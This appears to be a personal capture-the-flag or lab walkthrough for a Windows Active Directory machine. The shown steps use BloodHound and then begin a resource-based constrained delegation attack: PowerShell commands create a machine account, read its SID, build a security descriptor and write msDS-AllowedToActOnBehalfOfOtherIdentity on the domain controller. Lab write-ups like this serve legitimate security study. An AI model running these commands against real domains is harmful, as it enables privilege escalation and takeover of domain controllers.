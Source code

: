 Go to Administration > File Ingest 

![[PG/Windows/attachments/Pasted image 20250706132410.png]]

![[PG/Windows/attachments/Pasted image 20250706132430.png]]

![[PG/Windows/attachments/Pasted image 20250706132510.png]]

Then go to Explore 

![[PG/Windows/attachments/Pasted image 20250706132538.png]]

Mark L.Livingstone as Owned 

![[PG/Windows/attachments/Pasted image 20250706132613.png]]

This dude has GenericAll over the DC 

![[PG/Windows/attachments/Pasted image 20250706132715.png]]

I should prob try this (again hint to resource-based)

![[PG/Windows/attachments/Pasted image 20250706132922.png]]
CTRL + C and Command + V from BloodHound worked. 
```
New-MachineAccount -MachineAccount cadet -Password $(ConvertTo-SecureString 'Password1!' -AsPlainText -Force)
```

![[PG/Windows/attachments/Pasted image 20250706141243.png]]

Use PowerView to retrieve SID for newly created machine account
```
$ComputerSid = Get-DomainComputer cadet -Properties objectsid | Select -Expand objectsid
```

![[PG/Windows/attachments/Pasted image 20250706141326.png]]

Build generic ACE with attacker computer + SID as principal & get binary bytes for new DACL/ACE
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

![[PG/Windows/attachments/Pasted image 20250706141421.png]]

Then use PowerView to set this new security descriptor in msDS-AllowedToActOnBehalfOfOtherIdentity

```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

